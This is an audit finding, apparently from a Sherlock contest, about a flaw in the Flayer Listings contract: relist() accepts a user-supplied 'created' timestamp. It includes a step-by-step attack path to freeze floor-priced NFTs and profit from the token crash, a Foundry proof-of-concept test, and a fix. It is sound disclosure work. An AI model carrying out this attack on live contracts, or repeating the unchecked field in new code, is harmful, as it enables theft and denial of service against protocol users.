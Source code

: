 Tiny Plastic Hyena

High

# Listings::relist() allows users to put listing start date into the future

### Summary

relist() is missing the logic that sets the "created" (start time) field in the listing struct. This allows the user to set any possible time, including far into the future, which keeps users from buying it.

### Root Cause

In relist() the listing struct is read directly from user supplied calldata with no checks to make sure the "created" field makes sense and no modifications made to said field.
[Link to function.](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/Listings.sol#L625-L672)
```solidity
    function relist(CreateListing calldata _listing, bool _payTaxWithEscrow) public nonReentrant lockerNotPaused {
        ...
        // Load our new Listing into memory
@>      Listing memory listing = _listing.listing;

        ... // @audit between loading and storing the listing nothing checks or changes the "created" field

        // Store our listing into our Listing mappings
@>      _listings[_collection][_tokenId] = listing;
```

When a new listing is created via createListings() or createLiquidationListing(), _mapListings() does the job of [setting the start time](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/Listings.sol#L245-L251) of the listing. No such logic exists in relist().

```solidity
    function _mapListings(CreateListing calldata _createListing, uint _tokenIds) private returns (uint tokensReceived_) {
        // Loop through our tokens
        for (uint i; i < _tokenIds; ++i) {
            // Create our initial listing and update the timestamp of the listing creation to now
            _listings[_createListing.collection][_createListing.tokenIds[i]] = Listing({
                owner: _createListing.listing.owner,
@>              created: uint40(block.timestamp), // @audit this is where the timestamp is set
                duration: _createListing.listing.duration,
                floorMultiple: _createListing.listing.floorMultiple
            });
```

This goes beyond dodging fees - users cannot [buy future dated listings](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/Listings.sol#L855-L859):
```solidity
    function getListingPrice(address _collection, uint _tokenId) public view returns (bool isAvailable_, uint price_) {
        ...
        // This is an edge case, but protects against potential future logic. If the
        // listing starts in the future, then we can't sell the listing.
        if (listing.created > block.timestamp) {
            return (isAvailable_, totalPrice); // @audit - this returns false for isAvailable, making any purchases revert
        }
```

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

DOS portion:
1. If no floor price listings are available, the attacker buys one directly from Locker and lists it.
2. The attacker relists a floor price listing for 1.01 fTokens far into the future, paying almost nothing in listing fees.
3. The attacker repeats until all floor priced NFTs are locked forever. The protocol is essentially frozen.
Profit portion:
4. The value of fTokens plummets, users can't redeem them for NFTs so they sell them in the uniswap pool
5. The attack scoops them up for cheap, uses them to cancel his or her listings and sells the NFTs on another marketplace

### Impact

This is a protocol ending DOS attack. Any NFT listed close to the floor price would be trivially inexpensive to lock out of existence forever. The attacker could set a price of 1.01 floor tokens and a short duration so as to pay almost no tax up front, but set the start time thousands of years in the future. Users are not permitted to buy listings with a future start date so the protocol would grind to a halt and the NFTs would be lost forever, and the fTokens would become worthless. Additionally, the attacker could cancel listings at any time, allowing for the attacker to buy the now worthless fTokens and use them to take the listings off of the protocol and turn a large profit.

### PoC

Please copy and paste the following into Listings.t.sol:
```solidity
function test_RelistToInfinity() public {
        address user = makeAddr("user");
        erc721a.mint(user, 5);

        // a user creates listing
        vm.startPrank(user);
        erc721a.approve(address(listings), 5);
        IListings.CreateListing[] memory _listings = new IListings.CreateListing[](1);
        _listings[0] = IListings.CreateListing({
            collection: address(erc721a),
            tokenIds: _tokenIdToArray(5),
            listing: IListings.Listing({
                owner: payable(user),
                created: uint40(block.timestamp),
                duration: 7 days,
                floorMultiple: 110
            })
        });
        listings.createListings(_listings);
        
        
        // a relister purchases the asset but sets the date to the far future
        address relister = makeAddr("relister");
        deal(address(locker.collectionToken(address(erc721a))), relister, 1.5 ether);

        vm.startPrank(relister);
        locker.collectionToken(address(erc721a)).approve(address(listings), type(uint).max);

        uint[][] memory tokenIdsOut = new uint[][](1);
        tokenIdsOut[0] = new uint[](1);
        tokenIdsOut[0][0] = 5;
        IListings.FillListingsParams memory fillParams = IListings.FillListingsParams({
                collection: address(erc721a),
                tokenIdsOut: tokenIdsOut
        });

        uint[] memory tokenIds = new uint[](1);
        tokenIds[0] = 5;

        listings.relist(IListings.CreateListing({
            collection: address(erc721a),
            tokenIds: tokenIds,
            listing: IListings.Listing({
                owner: payable(relister),
                // MAXIMUM TIME
                created: uint40(type(uint40).max - 20 days),
                duration: 7 days,
                // MAXIMUM PRICE
                floorMultiple: 1000
            })
        }), false);

        // 10,000 years pass but the listing remains unchanged
        vm.warp(block.timestamp + 365 days * 10_000);
        (,uint256 price) = listings.getListingPrice(address(erc721a), 5);
        assertEq(price, 10e18);
    }
```

### Mitigation

Set "created" to block.timestamp in relist()
